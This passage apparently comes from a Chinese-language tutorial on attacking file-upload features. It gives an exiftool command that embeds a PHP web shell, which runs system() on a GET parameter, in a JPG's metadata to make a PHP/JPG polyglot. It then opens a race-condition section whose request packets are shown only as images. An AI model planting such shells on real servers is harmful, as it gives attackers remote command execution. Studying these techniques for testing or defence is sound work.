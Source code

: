 第二种方法：

创建一个多语言` PHP/JPG `文件，该文件基本上是普通图像，但在其元数据中包含` PHP payload`

```sh
exiftool -Comment='<?php echo system($_GET["command"]);' 22.jpg -o polyglot.php
```

### 条件竞争

上传数据包：

![image-20250508161822535](./img/image-20250508161822535.png)

竞争数据包：

![image-20250508161851804](./img/image-20250508161851804.png)
